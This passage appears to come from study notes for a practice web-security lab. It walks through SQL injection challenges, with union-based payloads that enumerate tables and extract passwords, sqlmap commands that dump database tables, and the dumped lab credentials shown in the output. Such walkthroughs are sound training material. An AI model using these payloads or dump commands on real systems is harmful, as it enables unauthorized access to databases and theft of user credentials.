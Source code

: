 - To retrieve the credentials, use the following command: `sqlmap -r request2.txt --level=2 -T injection0x02 --dump`

```
Database: peh-labs
Table: injection0x02
[2 entries]
+---------------------+--------------+----------+--------------------------------------------+
| email               | password     | username | session                                    |
+---------------------+--------------+----------+--------------------------------------------+
| jeremy@example.com  | jeremy       | jeremy   | 6967cabefd763ac1a1a88e11159957db (jeremy)  |
| jessamy@example.com | ZWFzdGVyZWdn | jessamy  | 9dedc6891e2839a791ed37157f1241fe (jessamy) |
+---------------------+--------------+----------+--------------------------------------------+
```

## SQL Injection - Challenge Walkthrough

### Union-Based Injection

- Determine the Number of Columns: `Senpai Knife Set' UNION SELECT NULL, NULL, NULL, NULL #`
- Discover Available Tables: `Senpai Knife Set' UNION SELECT NULL, NULL, NULL, table_name from information_schema.tables #`, we have `injection0x03_products` and `injection0x03_users`
- Retrieve Data from a Table: `Senpai Knife Set' UNION SELECT NULL, NULL, NULL, password from injection0x03_users #`, we get username: `takeshi`
- `Senpai Knife Set' UNION SELECT NULL, NULL, NULL, password from injection0x03_users #`, we get password: `onigirigadaisuki`

### BurpSuite

- Intercept the POST request in BurpSuite.
- Change the product to `test`.
- Save the modified request to a file named `request3.txt`.

### SQLMap

- Dump the Table Data: `sqlmap -r request3.txt -T injection0x03_users --dump`

```
Database: peh-labs
Table: injection0x03_users
[1 entry]
+------------------+----------+
| password         | username |
+------------------+----------+
| onigirigadaisuki | takeshi  |
+------------------+----------+
```

> **Note**: Feel free to use this [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## XSS - Introduction
